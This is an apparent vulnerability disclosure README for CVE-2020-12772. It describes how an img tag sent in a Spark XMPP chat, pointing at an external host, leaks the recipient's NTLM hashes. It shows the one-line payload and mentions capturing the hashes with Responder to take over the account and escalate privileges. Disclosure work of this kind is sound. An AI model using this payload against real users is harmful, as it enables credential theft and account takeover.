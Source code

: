 # CVE-2020-12772

## Description
When @anqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](images/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL aas the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our prrivileges (depending on the user of course).

![Responder](images/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway